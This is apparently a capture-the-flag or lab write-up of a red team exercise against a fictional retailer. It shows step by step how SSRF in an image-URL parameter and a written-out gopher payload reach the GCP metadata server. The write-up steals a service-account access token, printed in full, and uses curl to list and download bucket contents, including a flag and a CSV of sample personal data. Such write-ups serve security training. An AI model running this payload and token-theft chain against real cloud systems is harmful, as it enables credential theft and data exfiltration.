







## Introduction 

Exploit SSRF with Gopher for GCP Initial Access - A red team engagement scenario involves gaining access to Gigantic Retail's infrastructure. After identifying an IP address (35.226.245.121), exploiting SSRF through the website's image URL functionality leads to access of Google Cloud Platform (GCP) metadata. Constructing a gopher payload and passing it through the URL parameter successfully reveals internal paths and service account information. Accessing the service account token allows further exploration, leading to the discovery of sensitive files like 'flag.txt' and 'user_data.csv' hosted on Google Storage. Retrieving the flag and user data discloses valuable information for the engagement.

 
## Initial Entry point  

| | |
| --- | --- |
| **Type** | **Value** |
| IP Address | 35.226.245.121<br> |


## Solution

 

With the IP Address, I’ve tried to access it directly and found that port 80 is open and hosts a kind of retail website 

 

 

 

Exploring further, we also found a shop inside the website where we can buy, checkout and purchase 

 

 

 

But there is an interesting functionality where you can specify your profile from a remote URL which is an interesting place to start looking out for SSRF

 

   

 

Intercepting the request and looking into the source of the website 

 

 

 

In the above, as you can see when we pass the image URL to fetch the image.. it calls through `url` parameter and then looks into the source, where you can see inside `<script>` we have `document.addEventListener('DOMContentLoaded', function() {...})` where it will wait until HTML content to be loaded and once it loaded it tells the `profile-photo` element where it sets it to `url` which we passed

 

But when u pass some reachable URL we may receive a pingback and even though it says “Not an Image”

 

In the Image URL replayed the value with the following URL [http://metadata.google.internal](http://metadata.google.internal "http://metadata.google.internal") which is the metadata for Google cloud just like in AWS which is `169.254.169.254` and URL processed and discloses `computeMetadata` in the response

 

  

 

But results in 403 when we tried to hit the [http://metadata.google.internal/computeMetadata/v1/](http://metadata.google.internal/computeMetadata/v1/) because we have to pass the header value which is `Metadata-Flavor: Google`⁠

 

 

 

 

 

But even after passing the header `Metadata-Flavor: Google` we are still receiving the 403

 

  

 

Looking into the following blog [here](https://blog.codydmartin.com/gcp-cloud-function-abuse/ "https://blog.codydmartin.com/gcp-cloud-function-abuse/") from Cody about abusing Google Cloud functions through gopher and got an idea of constructing the gopher payload but we need how the internal request looks like 

 

```sh
GET /computeMetadata/v1 HTTP/1.1
Host: metadata.google.internal
Accept: */*
Metadata-Flavor: Google
```

 

Converting this HTTP request into the gopher

 

```bash
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

 

When passing the payload through the `url` parameter we didn’t 403 instead our request was successfully parsed disclosing the execution and further paths inside cloud metadata 

 

 

 

Accessing `/instance` further reveals internal paths and we have to access `service-accounts` 

 

 

 

Accessing that `service-accounts` reveals that other than `default` we have other one service account which is [bucketviewer@gr-proj-1.iam.gserviceaccount.com](mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com "mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com") 

 

 

 

 

> Service accounts in Google Cloud Platform (GCP) are special types of accounts used to grant specific permissions to applications, virtual machines, and other services within GCP, enabling them to interact with other Google Cloud services

 

Adding to that `/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` will reveal the token of the specific account just like iam credentials in AWS via metadata 

 

 

 

Checked the token using the curl command and found that the token is valid and online 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=ya29.c.c0AY_VpZgBbzy_M8iNeYS9J1McBJnQAPLsAUQ27C6g07VyUz3FPe_sIi5GJtPDpMHZcnSF8jVjuNyIpfpMvJ6b619ENrMbUXosdRvOqzpDqTAg2HmVJw14RvAmynCsx3MzQcsWq_hpKCVjlXZo7ymOop1CuHMbi7II2Gd7HxigAaHbqDCu5nlAJxYARFfri3g9avb3N4B4UFfiBMCbhQp6U1YG5-lOI-H0RsYxBSySHv5TelWXDQRC3giFz7H6yg50mV3A7Rw5f108qY89BL3je6vGoPxmBX63a-OO6Sj3UxmwidYZms9oVtjIXJOl_V95ktagGehAvNamq0ICOLmLrvWLLAqLbIcyD7OgurWcxrM3IWTIUgMrC8C7vXhzMJB2T393Kde48XIUag5loxhk3o1s8kMv8b5ZnV8j4fsYZF11RR7eixWetn4iJMYxQg0g3Z7ucBu7u_p2w49M0f07435yqpRet6y_raxBwZik_b_lpod3ZV1e7byo7XzmqYFYWcjUnort8Xp2sSI7_gnj_YVzdsQRYXQ663MylV3XYOdZ-mck6911SdSpvrwSoV9sY2I0fXWyaIYIZn6bjt2x4zn7kcYXBxaiBz6dJRuwik0f2yg1mWbXhc4da04xqY3Q-3hSX1eolcisuvFsyIZ-5ww80r0_IvR3oWdnhMkvslxoo1kwm61cRYcj1r0hOR91Iu8BnebUz8F9t1kRs6WxJxm0idI1B8J9kOmhF0y2Zs-B01993vatMBofkhcu7pp0r6dieb3VBXY3yS6bmSh4Syrjlp87xJ5o6dQ-iVJsUpb8B7S4ucnRdzyJWpbvhgxW9i1F15vwof6wIy5Srtqpcdr6agphwbRdQWeZuBQ1mp7xrtuV0jxtRu5daxBwZX9Z7QdfV5-Iq5fQB1kOo9dYFQSQ5yY818xtvySeRqunt2VXRlm2bwMs3-w9_WcO_RcSwXn01fleM7u2IS3pq-onh9Y3tM9XSFah6SeY48bOfo3fUyYSqk7rIm1" https://www.googleapis.com/oauth2/v1/tokeninfo

{
 "issued_to": "113150342444479982060",
 "audience": "113150342444479982060",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 2507,
 "access_type": "online"
}
```

 

Further, we know that the images for the shop website are being hosted here 

 

  

 

 

From Google docs [here](https://cloud.google.com/storage/docs/authentication#apiauth "https://cloud.google.com/storage/docs/authentication#apiauth"), we gotta know about an API call to access Google storage buckets 

 

```sh
curl -H "Authorization: Bearer $GOOGLE_TOKEN" "https://storage.googleapis.com/storage/v1/b/gigantic-retail/o"
```

 

Got to know the information about the objects and received a huge chunk of data but these two look interesting interesting 

 

```json
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/flag.txt/1703771329072518",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media",
 "name": "userdata/flag.txt",
 "bucket": "gigantic-retail",
 "generation": "1703771329072518",
 "metageneration": "1",
 "contentType": "text/plain",
 "storageClass": "STANDARD",
 "size": "33",
 "md5Hash": "J+PDkjepBufLwKoiCflv2w==",
 "crc32c": "/H+7+Q==",
 "etag": "CIab5OaisoMDEAE=",
 "timeCreated": "2023-12-28T13:48:49.125Z",
 "updated": "2023-12-28T13:48:49.125Z",
 "timeStorageClassUpdated": "2023-12-28T13:48:49.125Z"
 },
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/user_data.csv/1703877006716190",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media",
 "name": "userdata/user_data.csv",
 "bucket": "gigantic-retail",
 "generation": "1703877006716190",
 "metageneration": "1",
 "contentType": "text/csv",
 "storageClass": "STANDARD",
 "size": "2388",
 "md5Hash": "JMvLqhSoe2s9FX6JlXGmxw==",
 "crc32c": "2XJ9cA==",
 "etag": "CJ7a572stYMDEAE=",
 "timeCreated": "2023-12-29T19:10:06.754Z",
 "updated": "2023-12-29T19:10:06.754Z",
 "timeStorageClassUpdated": "2023-12-29T19:10:06.754Z"
 }
```

 

Accessing `mediaLink` with the same curl command with little correction will reveal the flag 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media"

9cee2dec5c28e047022f8ba9e0d7ca62
```

 

You can ask what is the other interesting file which is user data disclosure where it highlights during ur pentest 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"


Name,Address,PhoneNumber,Email,Job Title,Company
John Doe,123 Main St, Seattle, WA 98101,555-1234,john.doe@novasoft.com,Software Engineer,Nova Software Solutions
Jane Smith,456 Oak Ave, Boston, MA 02110,555-5678,jane.smith@bluebaytech.com,Project Manager,Blue Bay Technologies
Bob Johnson,789 Pine Rd, Austin, TX 78701,555-9012,bob.johnson@creativedge.com,Graphic Designer,Creative Edge Design
Alice Williams,101 Cedar Lane, Denver, CO 80202,555-3456,alice.williams@peakhr.com,HR Specialist,Peak Human Resources
Charlie Brown,202 Maple Blvd, Chicago, IL 60601,555-7890,charlie.brown@marketgenius.com,Marketing Director,Market Genius Inc.
Emily Davis,303 Elm Street, San Francisco, CA 94102,555-2345,emily.davis@zenithfinance.com,Financial Analyst,Zenith Finance
Michael Miller,404 Birch Lane, New York, NY 10001,555-6789,michael.miller@techfrontier.com,IT Consultant,Tech Frontier
Olivia Wilson,505 Pinecrest Rd, Miami, FL 33101,555-0123,olivia.wilson@sunrealty.com,Real Estate Agent,Sunshine Realty
David Taylor,606 Oakwood Ave, Philadelphia, PA 19106,555-4567,david.taylor@arcopartners.com,Architect,Arco Partners
Sophia Anderson,707 Maple Court, Las Vegas, NV 89101,555-8901,sophia.anderson@nextstepsales.com,Sales Manager,Next Step Sales
Daniel Harris,808 Cedar Rd, Atlanta, GA 30301,555-2341,daniel.harris@webworlddev.com,Web Developer,Web World Development
Grace Thomas,909 Birch Blvd, Minneapolis, MN 55401,555-6785,grace.thomas@biogenresearch.com,Clinical Researcher,Biogen Research Labs
Isaac Martinez,1010 Oak Lane, Portland, OR 97201,555-0129,isaac.martinez@eduworld.com,Teacher,EduWorld Schools
Ella Rodriguez,1111 Pine Ave, Dallas, TX 75201,555-4563,ella.rodriguez@mediavista.com,Journalist,Media Vista
James Smith,1212 Cedar Street, Orlando, FL 32801,555-8907,james.smith@legalpros.com,Attorney,Legal Pros LLP
Ava Johnson,1313 Elm Rd, Phoenix, AZ 85001,555-2349,ava.johnson@idinteriors.com,Interior Designer,Innovative Designs
Liam Davis,1414 Maple Lane, Raleigh, NC 27601,555-6783,liam.davis@gourmetchef.com,Chef,Gourmet Chef Culinary
Mia Wilson,1515 Pine Blvd, Cleveland, OH 44101,555-0127,mia.wilson@sigmapharma.com,Pharmacist,Sigma Pharmacy
Noah Taylor,1616 Birch Ave, Nashville, TN 37201,555-4561,noah.taylor@truetecheng.com,Engineer,TrueTech Engineering
Sophie Brown,1717 Oakwood Rd, Kansas City, MO 64101,555-8905,sophie.brown@fitnation.com,Fitness Trainer,FitNation
```